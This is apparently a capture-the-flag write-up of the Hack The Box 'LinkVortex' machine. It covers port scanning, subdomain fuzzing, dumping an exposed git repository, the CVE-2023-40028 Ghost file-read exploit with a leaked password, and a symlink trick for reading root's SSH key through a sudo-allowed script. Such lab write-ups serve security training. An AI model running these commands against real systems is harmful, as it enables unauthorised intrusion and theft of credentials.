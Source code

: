 ```yaml
---
date: 2025-04-13
categories: [Linux, Easy]
---
```


![LinkVortex](https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [0xyassine](https://app.hackthebox.com/users/143843)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.47 -oG scan
	nmap -p22,80 -sCV -Pn 10.10.11.47 -oN ports
	```

	![image](https://github.com/user-attachments/assets/7f773cb3-8c8d-42aa-be0a-45dd9c4be2fd)

- I go to the site and see that a de-tialized version of Ghost is running. I find that it has a vulnerability, [CVE-2023-40028](https://github.com/TryGhost/Ghost/security/advisories/GHSA-9c9v-w225-v5rg). I need to find a valid credential to be able to abuse this vulnerability.
	
	![image](https://github.com/user-attachments/assets/18ca98a7-3293-4927-8960-ff989ea25e90)

- I do a search for subdomains and I find one.

	```python
	wfuzz -c -t 100  --hh=230 -w  /usr/share/amass/wordlists/subdomains-top1mil-110000.txt -H "Host: FUZZ.linkvortex.htb" http://linkvortex.htb
	```

	![image](https://github.com/user-attachments/assets/ff557526-705e-4bbe-9cef-4d75885a1db6)

  ![image](https://github.com/user-attachments/assets/21f3466c-47ab-437e-806e-4a3c5f41f221)

- When listing the found subdomain I find a git repository. I download it with [git-dumper](https://github.com/arthaud/git-dumper)

	```python
	git-dumper "http://dev.linkvortex.htb/.git"  /home/rufo/linkVortex/content/example 
	```

- I search in the repository files and find some passwords. I try with the passwords I found and the vulnerability I found before and I manage to find some valid credentials.
	
	```python
	./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
	```

- I modify the script to point to the endpoint and I manage to read internal files of the machine. LFI

	![image](https://github.com/user-attachments/assets/a6cfc387-f366-4ada-8e57-12cdd497dd78)

	![image](https://github.com/user-attachments/assets/b3e854aa-8bb4-4c65-9e74-26cf4a12b130)

- I list the repository files and manage to find some credentials in the production environment configuration file

	![image](https://github.com/user-attachments/assets/54556822-4366-44a8-bd4b-dfad3ae5409e)

- Thanks to these credentials I am able to log in via ssh and read the first flag

	![image](https://github.com/user-attachments/assets/106d9366-5e5a-45c5-807f-0e07e0423a9f)

- Listing the system files, I see that I can execute as root the file clean_symlink.sh and passing any file as argument.
- I create a couple of symbolic links to be able to read the file with the ssh key of the root user.

	![image](https://github.com/user-attachments/assets/a4a806f7-6830-4afb-a1ea-d25f727f8879)

	```python
	ln -s /root/.ssh/id_rsa link1.txt
	ln -s /tmp/a/link1.txt duo.png
	sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/a/duo.png
	```

	![image](https://github.com/user-attachments/assets/aee342c8-20ab-4a9f-a0ab-453484fb7a41)

- With this key I connect via ssh as root and manage to read the second flag

	![image](https://github.com/user-attachments/assets/51b70c2a-f975-4531-badc-9bb614df7e48)
